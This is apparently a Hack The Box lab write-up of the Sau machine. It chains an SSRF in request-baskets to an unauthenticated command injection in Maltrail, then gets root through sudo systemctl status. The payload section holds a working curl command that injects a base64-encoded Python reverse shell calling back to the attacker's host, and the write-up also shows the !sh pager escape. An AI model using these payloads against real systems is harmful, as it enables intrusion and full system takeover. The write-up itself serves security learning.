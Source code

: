 ```yaml
---
title: "Hack The Box Machine - Sau"
description: "Walkthrough of the Sau machine from Hack The Box - an easy Linux box involving SSRF exploitation, Maltrail vulnerability, and privilege escalation"
createdAt: 2023-07-29
image: "../assets/sau.png"
tags:
  - hackthebox
  - easy
  - cybersecurity
draft: false
---
```


### Easy Box


![Sau](https://www.hackthebox.com/storage/avatars/1ea2980b9dc2d11cf6a3f82f10ba8702.png)


| Name | Sau|
| :------ |:--- |
| OS | Linux |
| RELEASE DATE | July 8, 2023 |
| DIFFICULTY | <span style="color:green">Easy</span> | 1



## Port Scan
I actually wanted to test Naabu as my scanner of choice to be able to enumerate the host. I just Naabu to scan all of the ports and Naabu has a feature to then pump the ports to nmap. This was my command and output.

```sh
solidshadw@solidManjaro  ~/Downloads   
$ sudo naabu -p - -host 10.10.11.224 -nmap-cli 'nmap -sV -oX nmap-outpu  
t'
  
                 __  
 ___  ___  ___ _/ /  __ __  
/ _ \/ _ \/ _ \/ _ \/ // /  
/_//_/\_,_/\_,_/_.__/\_,_/  
  
               projectdiscovery.io  
  
[INF] Current naabu version 2.1.6 (latest)  
[INF] Running host discovery scan  
[INF] Running SYN scan with CAP_NET_RAW privileges  
[INF] Found 2 ports on host 10.10.11.224 (10.10.11.224)  
10.10.11.224:55555  
10.10.11.224:22  
[INF] Running nmap command: nmap -sV -oX nmap-output -p 22,55555 10.10.  
11.224  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 14:30 MDT  
Nmap scan report for 10.10.11.224  
Host is up (0.069s latency).  
  
PORT      STATE SERVICE VERSION  
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux;  
protocol 2.0)  
55555/tcp open  unknown  
1 service unrecognized despite returning data. If you know the service/  
version, please submit the following fingerprint at https://nmap.org/cg  
i-bin/submit.cgi?new-service :  
SF-Port55555-TCP:V=7.94%I=7%D=7/29%Time=64C576E7%P=x86_64-pc-linux-gnu%  
r(G  
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm  
l;\  
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\  
"/w  
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2  
0Re  
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection  
:\x  
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x  
202  
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ  
est  
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla  
in;  
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque  
st"  
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20  
tex  
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\  
x20  
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n  
Con  
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r  
\n\  
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204  
00\  
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r  
\nC  
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6  
7,"  
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x  
20c  
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%  
r(K  
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t  
ext  
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x  
20R  
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\  
r\n  
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti  
ons  
SF::\x20nosniff\r\nDate:\x20Sat,\x2029\x20Jul\x202023\x2020:30:58\x20GM  
T\r  
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20  
nam  
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}  
\$\  
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty  
pe:  
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\  
x20  
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ  
est  
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20  
clo  
SF:se\r\n\r\n400\x20Bad\x20Request");  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at htt  
ps://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 89.64 seconds
```

Looks like we found 2 ports opened. Port 22 and Port 55555. 

## Port 55555
Looks like this port is running a web interface

![image](../assets/20230729160044.png)

As I inspect the app. Looks like you can create a webhook like in which it collects and inspects the data sent over. 

We can send requests to the basket that I created `http://10.10.11.224:55555/web/gfr64fy`. 

![image1](../assets/20230729160639.png)

On the main page, I saw a version number `Version: 1.2.1`. Which I proceeded to look any potential vulnerabilities and bingo. https://github.com/advisories/GHSA-58g2-vgpg-335q, 
Looks like it is vulnerable to SSRF. As I continue to dig into this vulnerability, seems that it is exploiting the `/api/baskets/{name}`. That means that every time we visit that site, that api path gets called and triggered. 

Exploring that app a bit more, I found that you can forward URLs. 

![image2](../assets/20230729161754.png)

I stumbled upon this [article](https://notes.sjtu.edu.cn/s/MUUhEymt7)  that was explaining the SSRF vulnerability and they used this feature of forward URL to exploit the SSRF to find any other webservers not exposed to internet. They found more resources on the localhost that where to not available on our initial scan. So, I tried on port 80 and boom we got another webserver. 

![iamge3](../assets/20230729162117.png)

![image4](../assets/20230729162133.png)

It looks like it is a Maltrail from the description at the bottom. It also exposes a version `v0.53`. A quick google search, you can find that version is vulnerable to an Unauthenticated RCE(the best kind) https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/.

We will need to add the `/login` at the end because it looks that is where that RCE happens. So, in the end our config will look something like this:

![image5](../assets/20230729162522.png)

## Payload to get RevShell

I started testing the RCE by sending a curl command to my host.

![image6](../assets/20230730211002.png)

Which it was successful! So, we know that it is working. 

![image8](../assets/20230730211042.png)

I tried the basic sh revershell but I couldn't get it to work, not sure why. When digging into this RCE I found this [article](https://medium.com/pentesternepal/owasp-ktm-0x03-ctf-writeup-e467634a9661) in which they craft a python reverse shell and echo it in base64 and decode and execute with bash. This was my final payload:

```bash
$ curl 'http://10.10.11.224:55555/gfr64fy' \         
 --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZ  
XNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJF  
QU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEwIiw4MDg1KSk7b3MuZHVwMihzLmZpbGVubyg  
pLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG  
9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw==|base64 -d|bash`'
```

After executing it, it worked!

![image9](../assets/20230729154901.png)

## Privilege Escalation Payload

Looks like we are running as the user "puma". I ran the command `sudo -l` to see if he's able to run any commands as sudo without a password.

![image10](../assets/20230729155419.png)

A quick google search on privilege escalation when running `systemctl status` landed me on this page https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/. 

So, the final payload is divided in two parts. The first is:
```bash 
sudo systemctl status trail.service
```
And then you run:
```bash
!sh
```

And that drops you into a shell. We have made it to root. 

![image11](../assets/20230729155249.png)